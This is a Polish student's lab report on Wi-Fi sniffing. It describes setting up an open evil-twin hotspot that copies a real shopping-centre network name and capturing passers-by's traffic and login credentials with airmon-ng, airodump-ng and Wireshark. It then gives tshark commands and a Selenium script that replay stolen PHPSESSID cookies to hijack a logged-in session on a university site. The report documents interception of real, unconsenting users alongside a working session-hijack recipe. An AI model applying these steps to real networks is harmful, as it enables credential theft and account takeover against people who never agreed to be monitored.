









# Lista 3

## Zadanie 1

### Dane
Cztery tysięce przykładowych pakietów w formie tabelki można znaleźć [tutaj](./packages.md), pierwsza połowa jest przefiltrowana `tcp || http`.

### Rozwiązanie

Konfiguracja laptopa przebiegła w dwóch stopniach. Pracowałem w grupie z Barbarą Banaszak, mój laptop został skonfigurowany tak, aby udostępniał niezabezpieczoną sieć WiFi, natomiast drugi laptop monitorował ją. 

Eksperymenty były przeprowadzane na różnych sieciach, np. `KFC Free Wifi`, `WiFi McDonald`, z marnym skurkiem. Najlepsze efekty osiągneliśmy kopiująć nazwę istniejącej sieci `**WiFi Pasaż Grunwaldzki**`, aczkolwiek liczba połączonych na raz osób nie przekraczała 4. Testowaliśmy również połączenia z niezabezpiecoznymi sieciami nieudostępnionymi przez nas.

Konfiguracja laptopa polegała na zmienieniu konfiguracji karty sieciowej za pomocą programów dostępnych zarówno w repozytorium Ubuntu jak i Minta i innych. Sama zmiana ustawień polegała na wpisaniu poleceń:
* `sudo airmon-ng start`, co zmieniało tryb karty sieciowej na 'monitor;
* `sudo airodump-ng wlp3s0mon`, co pozwalało wylistować nazwy SSID sieci wraz z kanałami.

Zdjęcie poniżej pokazuje stan aplikacji po powyższej komendzie



Następnie należało wybrać SSID oraz kanał i nasłuchiwać na tą sieć. Krok ten poazuje zrzut ekranu:



Pozyskane w ten sposób dane należało zapisać do pliku i otworzyć w programie dekodującym, np `Wireshark`. Z jego pomocą byliśmy w stanie podejrzeć strony, jakie odwiedzali użytkownicy, protokoły jakimi się posługiwali a nawet **dane dostępowe do konta** w przypadku stron niezabezpieczonych protokołem HTTP (dotyczy to niestety głównie stron Politechniki Wrocławskiej).
Zrzuty ekranu poniżej, pokazują dane, które udalo nam się pozyskać.

Po przefiltrowaniu wyników przez słowo kluczowe *POST* znaleźliśmy formularz rejestracji, z danymi slużącymi do zarejestrowania przesłanymi w plain texcie bez szyfrowania bo stronie klienta.

Dla testów sprawdziliśmy niezaszyfrowaną stronę internetową pod domentą PWr. Widać dane dostępowe do panelu administratora:

Na tym zrzucie widać prawdopodobnie rejestracje do systemu wewnetrznego publicznej sieci w Pasażu Grunwaldzkim. Połączenie jest nieszyfrowane ale credentiale są zaszyfrowane po stronie klienta co nieco utrudniało by nieautoryzowany dostęp (ale w żadnym wypadku nie uniemożliwia).


Zarówno lista witryn jak protokołów zawiera się w [tabelce](./packages.md) w podpowiednich kolumnach.

Mapa lokalizacji z którymi łączyli się użytkownicy została wygenerowana przy pomocy programu `Visual Traceroute`. Przykładowe screeny poniżej. Pozostałe zrzuty znajdują się w katalogu `./traceroute/`.







## Zadanie 2

Zadanie zrobiłem wykorzystując stronę mojego koła naukowego (którą zresztą napisałem), ponieważ stoi na serwerach Politechniki, które są nieszyfrowane. 

Do wyekstrachownaia plików cookies użyłem programu `tshark`

`sudo tshark -i wlp3s0 -w out.pcap`

Plik wyjściowy znajduje się [tutaj](./out.pcap).

Możemy znaleźć cookies potrzebne nam do podszycia się pod innego użytkownika:

```
 $sed /Cookie/q out.pcap

Cookie: PHPSESSID=7ef0ed1eba86f4dac4352078e47d59a1; PHPSESSID=u0ijuhl7phjmqh0s9mtq2cguk5
```

Po wyekstrachowaniu cookies, użyłem skryptu napisanego w Pythonie:

```
import selenium.webdriver
driver = selenium.webdriver.Chrome('./chromedriver')
driver.get("http://www.solvro.pwr.edu.pl/admin.php")
cookies = [
	{'domain': 'www.solvro.pwr.edu.pl', 'name': 'PHPSESSID', 'value': '7ef0ed1eba86f4dac4352078e47d59a1'},
	{'domain': '.pwr.edu.pl', 'name': 'PHPSESSID', 'value': 'u0ijuhl7phjmqh0s9mtq2cguk5'},
	]

for cookie in cookies:
    driver.add_cookie(cookie)

for cookie in driver.get_cookies():
    print ((cookie['name'], cookie['value']))
```

wykorzstującego `Selenium` i `chromewebdriver`. Po umieszczeniu cookies i odpaleniu skryptu, wyswietla się panel logowaniu, natomiast po przeładowaniu strony, zostajemy przeniesieni do sesji zalogowanego użytkownika, jak pokazano na zrzucie poniżej:

